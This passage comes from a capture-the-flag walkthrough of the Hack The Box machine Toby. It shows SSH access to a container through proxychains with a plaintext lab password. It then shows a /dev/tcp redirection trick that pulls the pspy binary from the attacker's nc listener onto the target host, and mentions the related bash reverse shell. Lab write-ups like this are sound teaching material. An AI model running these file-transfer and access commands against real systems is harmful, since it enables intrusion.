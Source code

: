     oxdf@hacky$ proxychains sshpass -p '4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC' ssh jack@172.69.0.102
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:22-<><>-OK
    Linux mysql.toby.htb 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sat Oct  9 10:37:39 2021 from 172.69.0.101
    jack@mysql:~$
    

## Shell as jack on Toby

### Enumeration

The container is pretty empty. I already looked at the database and there
wasn’t much else there. To look for processes, I uploaded
[pspy](https://github.com/DominicBreuker/pspy). Given the complete lack of
tools on this container, I had to use this [Bash
trick](https://www.linuxjournal.com/content/more-using-bashs-built-devtcp-
file-tcpip) using `/dev/tcp` and redirection (similar to the [Bash rev
shell](https://www.youtube.com/watch?v=OjkVep2EIlw)). First, I’ll have `nc`
listening to serve `pspy64` on my host:

    
    
    oxdf@hacky$ cat pspy64 | nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    

Now use `exec` to connect:

    
    
    jack@mysql:~$ exec 3<>/dev/tcp/10.10.14.6/443
    

At `nc`, there’s the connection:

    
    
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:36664.
    

Now I can read from it:

    
    
    jack@mysql:~$ cat <&3 > p
    

When it’s done, check both hashes to make sure it worked:

    